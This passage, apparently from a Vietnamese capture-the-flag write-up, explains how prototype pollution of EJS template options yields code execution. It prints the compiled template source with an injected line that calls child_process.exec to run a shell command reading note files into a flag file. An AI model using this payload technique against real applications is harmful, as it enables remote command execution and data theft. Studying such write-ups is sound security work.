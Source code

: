 Vì đoạn code ban đầu không gán options `escapeFunction` nên ta có thể ghi đè vào đây với Prototype Pollution. `escapeFn` chỉ được thêm vào khi `opts.client` là truthy value. Ta chỉ cần tận dụng và gán cho nó giá trị true, escapeFn sẽ được thêm vào.
:::details eval code
Dòng 24 là dòng ta thêm vào cho `escapeFn` để có thể chạy code của mình. `escapeFn` cần có kiểu Function nên có thể cho nó bằng một function bất kỳ (`console.log`)
```javascript
rethrow = rethrow || function rethrow(err, str, flnm, lineno, esc) {
  var lines = str.split('\n');
  var start = Math.max(lineno - 3, 0);
  var end = Math.min(lines.length, lineno + 3);
  var filename = esc(flnm);
  // Error context
  var context = lines.slice(start, end).map(function (line, i){
    var curr = i + start + 1;
    return (curr == lineno ? ' >> ' : '    ')
      + curr
      + '| '
      + line;
  }).join('\n');

  // Alter exception message
  err.path = filename;
  err.message = (filename || 'ejs') + ':'
    + lineno + '\n'
    + context + '\n\n'
    + err.message;

  throw err;
};
escapeFn = escapeFn || console.log; process.mainModule.require('child_process').exec('tail -n +1 notes/* | grep bi0s > notes/flag.json');;
var __line = 1
```